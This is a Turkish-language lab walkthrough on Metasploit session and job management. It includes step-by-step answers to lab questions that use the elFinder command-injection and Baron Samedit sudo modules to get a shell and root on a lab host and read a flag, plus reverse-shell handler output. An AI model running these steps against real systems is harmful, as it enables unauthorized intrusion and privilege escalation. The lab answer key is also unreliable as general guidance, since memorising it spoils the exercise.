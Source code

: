 ```yaml
---
icon: material/help
search:
  boost: 2
---
```


# Sessions

## Using Sessions

Meterpreter içerisinde ++control+z++ tuş kombinasyonu ile veya `background` komutunu çalıştırarak mevcut oturumu arka plana taşıyabiliriz. Bu işlemin ardından dilersek farklı bir modül ile çalışabiliriz.

### Listing Active Sessions

```text
sessions
```

```text title="Output"
Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ MS01  10.10.10.129:443 -> 10.10.10.205:50501 (10.10.10.205)
```

### Interacting with a Session

```text
sessions -i 1
```

```text title="Output"
[*] Starting interaction with 1...

meterpreter >
```

## Jobs

Belirli bir port altında aktif olarak çalışan bir exploit varsa ve bu porta farklı bir modül için ihtiyaç duyuluyorsa ++control+c++ tuş kombinasyonu ile oturumu sonlandıramayız. Bunun yapılması portu kullanılabilir hale getirmez.

Bunun yerine, arka planda çalışan aktif görevlere bakmak için `jobs` komutunu kullanmak ve daha sonra ilgili portu boşa çıkarmak için eski görevleri sonlandırmak gerekir.

### Running an Exploit as a Background Job

```text
exploit -j
```

```text title="Output"
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.34:4444
```

### Listing Running Jobs

Çalışan tüm işleri listelemek için aşağıdaki komut kullanılabilir:

```text
jobs -l
```

```text title="Output"
Jobs
====

 Id  Name                    Payload                    Payload opts
 --  ----                    -------                    ------------
 0   Exploit: multi/handler  generic/shell_reverse_tcp  tcp://10.10.14.34:4444
```

Belirli bir işi sonlandırmak için ilgili işin index bilgisi kullanılabilir:

```text
kill 0
```

## Questions

```text
The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?
```

??? tip "Steps"

    Web tarayıcısında [http://10.129.203.52](http://10.129.203.52) adresine gittikten sonra sayfa kaynağını görüntüleyerek istenilen cevaba ulaşabilirsin.

```text
Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?
```

??? tip "Steps"

    Öncelikle Msfconsole aracını başlat:

    ```bash
    sudo msfconsole -q
    ```

    Aşağıdaki aramayı gerçekleştir:

    ```text
    search elfinder
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan:

    ```text
    use exploit/linux/http/elfinder_archive_cmd_injection
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 10.129.203.52
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.14.87
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Aşağıdaki komutu çalıştır:

    ```bash
    whoami
    ```

    Cevabı edindikten sonra shell penceresini çıkış yap ve Meterpreter oturumunu arka plana taşımak için aşağıdaki komutu kullan (bir sonraki soruda bu oturumu kullanmamız gerekecek, o yüzden Msfconsole da açık kalmalı):

    ```text
    background
    ```

```text
The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.
```

??? tip "Steps"

    Öncelikle aşağıdaki aramayı gerçekleştir:

    ```text
    search sudo
    ```

    Çıkan sonuçlardan ilgili exploit modülünü kullan. Bu modül ile `root` kullanıcısı olabileceğiz:

    ```text
    use exploit/linux/local/sudo_baron_samedit
    ```

    Bu soruyu çözebilmek için önceden edindiğimiz oturumu kullanacağız. Bu oturuma ait index bilgisini aşağıdaki komut ile öğren:

    ```text
    sessions
    ```

    ```text title="Output"
    Active sessions
    ===============

      Id  Name  Type                   Information               Connection
      --  ----  ----                   -----------               ----------
      1         meterpreter x86/linux  www-data @ 10.129.203.52  10.10.14.87:4444 -> 10.129.203.52:41988 (10.129.203.52)
    ```

    SESSION değerini ayarla:

    ```text
    set SESSION 1
    ```

    LHOST değerini ayarla:

    ```text
    set LHOST 10.10.14.87
    ```

    Exploit başlat:

    ```text
    run
    ```

    Sistem shell aktif et:

    ```text
    shell
    ```

    Flag dosyasının konumunu bulmak için aşağıdaki komutu çalıştır:

    ```bash
    sudo find / -name flag.txt -type f 2> /dev/null
    ```

    ```text title="Output"
    /root/flag.txt
    ```

    Bulunan dosyanın içeriğini görüntülemek için aşağıdaki komutu çalıştır:

    ```bash
    cat /root/flag.txt
    ```
